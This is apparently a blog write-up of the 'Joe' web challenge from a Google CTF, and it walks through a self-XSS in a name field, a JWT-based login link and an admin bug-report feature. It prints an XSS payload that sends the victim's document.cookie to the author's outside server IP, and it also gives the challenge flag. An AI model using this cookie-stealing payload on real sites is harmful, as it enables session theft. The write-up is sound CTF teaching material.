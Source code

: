 ```yaml
---
published: true
---
```

## Joe Challenge writeup: Google ctf

Joe was the first of five puzzles in the Web category, and the only one classified as Easy. In essence, the challenge entailed the following:

_If you can find a vulnerability that makes it possible to steal the cookies of the administrator, we will reward you with a valuable flag:_

[Challenge url](https://joe.web.ctfcompetition.com)

![Joe_screenshot.png](https://raw.githubusercontent.com/Buffer0x7cd/buffer0x7cd.github.io/master/_posts/Joe_screenshot.png)

Initial reconnaissance led me to the following features.


- Name-changing
- Session and Login handling
- Submitting bug report to admin.

Another interesting point was that if we try to use the link provided for admin login then we getting the following result.

![joe_admin_login.png](https://raw.githubusercontent.com/Buffer0x7cd/buffer0x7cd.github.io/master/_posts/joe_admin_login.png)




As we can see in the above responce that the admin have a cookie named as flag and it's required for logging in as an admin. Now we just need to figure out a way to steal the admin cookie.

Cookie theft is often facilitated through XSS (cross-site scripting), so I asked Joe to let me rename you to an injection payload:

**<svg/onload=alert(document.domain)>**


Refreshing the page led to successful self XSS
![joe_test.png](https://raw.githubusercontent.com/Buffer0x7cd/buffer0x7cd.github.io/master/_posts/joe_test.png)


But this payload is executing in self context a.k.a. "selfxss".Now I proceeded to focus on leveraging this against the "administrator" user. Reporting a bug to admin seems an intersting attack surface for this purpose. we can use this feature to report a bug by supplying a valid report URL (prefixed with HTTP/S) and CAPTCHA response.


But after trying a few times I am still not able to exploit this feature. So i decided to take a look on the login feature. where i found [JSON Web Token](https://jwt.io/) parameter in a login request:



```https://joe.web.ctfcompetition.com/login?id_token=<User-JWT-Token> ``` 



![Screenshot from 2017-07-03 15-57-08.png](https://raw.githubusercontent.com/Buffer0x7cd/buffer0x7cd.github.io/master/_posts/Screenshot%20from%202017-07-03%2015-57-08.png)




**_JSON Web Token (JWT) is an open standard (RFC 7519) that defines a compact and self-contained way for securely transmitting information between parties as a JSON object._**



I found that the above URL could be used to log into my account with a valid JWT, and proceeded to change Joe's name to the following payload

```<script>img = new Image(); img.src="https://139.59.74.204/cookie?q="+document.cookie;alert("done");//</script>```


![selfxss.png](https://raw.githubusercontent.com/Buffer0x7cd/buffer0x7cd.github.io/master/_posts/selfxss.png)



As you can see in above image that the payload executed successfully. Now all i need is to issue a bug report for admin and sent my tokenised URL to Joe, but this url was rejected due to excess length.



![joe_url_too_big.png](https://raw.githubusercontent.com/Buffer0x7cd/buffer0x7cd.github.io/master/_posts/joe_url_too_big.png)



So i used google's link shortner service and sent the new url as a bug report. Which is get accepted successfully.



![Screenshot from 2017-07-03 15-59-36.png](https://raw.githubusercontent.com/Buffer0x7cd/buffer0x7cd.github.io/master/_posts/Screenshot%20from%202017-07-03%2015-59-36.png)



Now all i needed is to check the access log of apache that is running on my VPS.


![joe_flag.png](https://raw.githubusercontent.com/Buffer0x7cd/buffer0x7cd.github.io/master/_posts/joe_flag.png)



And this way i got the access of admin's flag cookie.

		flag=CTF{h1-j03-c4n-1-h4v3-4-c00k13-plz!?!};
